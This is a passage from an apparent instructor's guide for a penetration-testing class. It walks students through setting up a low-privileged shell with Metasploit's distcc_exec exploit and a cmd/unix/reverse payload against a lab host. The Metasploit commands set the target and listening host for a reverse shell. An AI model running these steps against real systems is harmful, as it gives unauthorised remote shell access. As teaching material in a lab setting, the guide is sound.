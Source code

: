 Explain that in the next activity, students will attempt to find a way to escalate their privileges from the **daemon** user to a higher privileged user.
- But for this activity, everyone first needs to be at the same starting point on the remote machine, so we'll complete a setup activity together as a class. 

#### Post Exploitation Activity Setup

As a class, we will first set up a low-privileged shell using Metasploit, which students will then use for post-exploitation and privilege-escalation techniques. Remind the class to follow along on their own computers as you complete these steps:

1. In Metasploit, search for `distcc` and select it. 

   - `search distcc` 
   
   - `use 0` or `use exploit/unix/misc/distcc_exec`

   ![A screenshot depicts the results of the commands.](images/searchdistcc.PNG)

   - Explain that `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable. 

2. List the options of the module, and point out that we need to set RHOSTS again as it is a required option.

   - `set RHOSTS 172.22.117.150`

3. Before running the module, we need to set a payload. List the available payloads.

   - `show payloads`
   
   - Point out the **Description** column, as it shows in parentheses how the payload is communicating.

4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.

   - `set PAYLOAD cmd/unix/reverse`
   
   - Note that we are now using the PAYLOAD with our EXPLOIT!

5. List options again, and point out that there's a new blank setting, LHOST. This is our "listening host," which is the host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. Use `ifconfig` to show your IP (eth0) and set LHOST to that IP.
